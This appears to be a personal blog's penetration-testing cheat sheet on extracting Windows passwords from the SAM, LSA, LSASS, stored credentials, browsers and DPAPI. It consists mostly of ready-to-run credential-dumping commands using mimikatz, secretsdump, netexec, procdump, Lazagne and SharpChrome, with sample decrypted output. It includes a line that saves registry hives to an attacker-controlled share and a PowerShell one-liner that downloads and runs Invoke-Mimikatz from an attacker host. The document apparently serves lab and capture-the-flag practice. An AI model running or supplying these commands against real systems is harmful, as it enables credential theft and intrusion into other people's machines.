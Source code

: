 ```yaml
---
title: "CheatSheet - Windows Passwords"
author: Nasrallah
description: ""
date: 2025-06-29 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, windows]
img_path: /assets/img/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **SAM**

SAM (Security Account Manager) is a database file in Windows that stores local user account credentials, including password hashes, and is used during the local authentication process.

```shell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

```bash
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SAM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SYSTEM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SECURITY' -o '\\attackerIP\share'
```

We use `secretsdump` from `Impacket` to extract the password hashes locally.

```bash
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Dump hashes remotely with [secretsdump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)

```bash
secretsdump.py administrator:Password123@10.10.10.10
```

Dump with [netexec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-sam)

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --sam
```

With mimikatz.

```bash
mimikatz.exe "privilege::debug" "lsadump::sam" exit
```

## **LSA**

**LSA** (Local Security Authority) is a Windows component that handles authentication, security policies, and stores secrets like service account passwords and cached credentials.

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --lsa
```

```bash
mimikatz.exe "privilege::debug" "lsadump::secrets" exit
```

## **LSASS**

**LSASS** (Local Security Authority Subsystem Service) is a Windows process responsible for enforcing security policies, handling logins, password changes, and generating access tokens. It stores live credentials in memory (e.g., passwords, hashes, tickets) for logged-in users

### Automated

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 -M lsassy
```

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Manually

#### Creating dump file

Using GUI

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

Using CLI

Identify `lsass.exe` PID

```bash
tasklist /fi "imagename eq lsass.exe"
Get-Process lsass
```

Create dump file

```shell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 668 C:\lsasspower.dmp full
procdump -accepteula -ma lsass lsass.dmp
```

Using `mimikatz`

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" exit
```

#### Extracting secretes

Extract credentials with [pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump ./lsass.dmp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://attacker/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## **Stored credentials**

```shell
cmdkey /list
```

```bash
Lazagne.exe
mimikatz.exe "privilege::debug" "vault::cred" exit
mimikatz.exe "privilege::debug" "sekurlsa::credman" exit
```

## **Browser Passwords**

```bash
Lazagne.exe
```

```shell
.\SharpChrome.exe logins /unprotect
```

### Misc

Search for passwords in smb shares.

```shell
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

## **DPAPI**

The DPAPI (Data Protection API) is Windows encryption API that applications use to securely store sensitive data, like passwords and certificates. It uses the user’s password (via their master key) to encrypt/decrypt data.

The master key is stored inside `C:\Users\<user>\AppData\Roaming\Microsoft\Protect\{SID}\`

The credentials are stored inside `C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\`

We use the following command to decrypt the masterkey using the users's password and sid:

```bash
[★]$ dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

Now we use the decrypted key to decrypt the credential file.

```bash
[★]$ dpapi.py credential -f 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m

```

## **References**

<https://www.thehacker.recipes>

<https://www.netexec.wiki/>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
